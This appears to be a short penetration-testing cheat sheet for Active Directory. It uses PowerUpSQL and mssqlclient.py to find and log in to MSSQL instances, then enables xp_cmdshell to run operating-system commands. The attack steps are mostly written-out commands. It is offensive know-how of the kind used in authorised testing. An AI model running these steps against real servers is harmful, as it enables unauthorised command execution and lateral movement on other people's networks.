 ```yaml
---
tags:
  - Authenticated
  - Lateral-Movement
  - Privilege-Escalation
  - AD
---
```

## Identify
---
[https://github.com/NetSPI/PowerUpSQL/wiki/PowerUpSQL-Cheat-Sheet](https://github.com/NetSPI/PowerUpSQL/wiki/PowerUpSQL-Cheat-Sheet)
```PowerShell
Import-Module .\PowerUpSQL.ps1
Get-SQLInstanceDomain
```
Connect - Windows
```PowerShell
Get-SQLQuery -Verbose -Instance "host,port" -username "domain.local\\user" -password "password" -query 'Select @@version'
```
Connect - Linux
```Bash
mssqlclient.py DOMAIN/USER@IP -windows-auth
```
## Exploit
---
Run commands with xp_cmdshell
```Bash
SQL> enable_xp_cmdshell
xp_cmdshell whoami /priv
```